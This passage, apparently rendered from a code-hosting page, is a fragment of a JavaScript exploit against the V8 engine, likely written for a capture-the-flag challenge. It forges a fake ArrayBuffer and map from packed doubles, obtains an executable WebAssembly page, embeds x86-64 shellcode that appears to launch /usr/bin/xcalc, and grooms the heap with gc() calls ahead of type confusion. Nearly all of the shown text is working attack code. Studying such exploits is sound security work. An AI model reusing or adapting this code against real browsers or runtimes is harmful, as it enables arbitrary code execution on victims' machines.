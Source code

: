 ```html
        // fake arraybuffer
        // map | prop
        u2d(0x41414141, 0x41414141), u2d(0, 0),
        // elem | size
        u2d(0, 0), u2d(0x1000, 0),
        // backing_store | 2
        u2d(0x41414141, 0x41414141), u2d(0x2, 0),
        u2d(0, 0), u2d(0, 0),
    
        // fake map
        u2d(0, 0), u2d(0x19080808, 0x19000423),
        u2d(0x82003ff, 0), u2d(0, 0),
        u2d(0, 0), u2d(0, 0),
        u2d(0, 0), u2d(0, 0),
    ].slice(0);
    
    let strings = "/flag\x00aaaabbbbccccddddeeeeffff";
    strings.length = 0x100;
    
    let wasm_code = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 7, 1, 96, 2, 127, 127, 1, 127, 3, 2, 1, 0, 4, 4, 1, 112, 0, 0, 5, 3, 1, 0, 1, 7, 21, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 8, 95, 90, 51, 97, 100, 100, 105, 105, 0, 0, 10, 9, 1, 7, 0, 32, 1, 32, 0, 106, 11]);
    let wasm_mod = new WebAssembly.Instance(new WebAssembly.Module(wasm_code), {});
    let f = wasm_mod.exports._Z3addii;
    
    let string_addr = null;
    
    var shellcode = new Uint32Array(21);
    shellcode[0] = 0x90909090;
    shellcode[1] = 0x90909090;
    shellcode[2] = 0x782fb848;
    shellcode[3] = 0x636c6163;
    shellcode[4] = 0x48500000;
    shellcode[5] = 0x73752fb8;
    shellcode[6] = 0x69622f72;
    shellcode[7] = 0x8948506e;
    shellcode[8] = 0xc03148e7;
    shellcode[9] = 0x89485750;
    shellcode[10] = 0xd23148e6;
    shellcode[11] = 0x3ac0c748;
    shellcode[12] = 0x50000030;
    shellcode[13] = 0x4944b848;
    shellcode[14] = 0x414c5053;
    shellcode[15] = 0x48503d59;
    shellcode[16] = 0x3148e289;
    shellcode[17] = 0x485250c0;
    shellcode[18] = 0xc748e289;
    shellcode[19] = 0x00003bc0;
    shellcode[20] = 0x050f00;
    
    gc();
    gc();
    gc();
    
    let av = u2d(0x41414141, 0x41414141);
    let bv = u2d(0x42424242, 0x42424242);
    let cv = u2d(0x43434343, 0x43434343);
    
    let a = [av, av, av, av, av, av];
    let b = [fake_arraybuffer, f, ab, strings, bv, bv];
    let c = [cv, cv, cv, cv, cv, cv];
    
    a = a.slice(0);
```
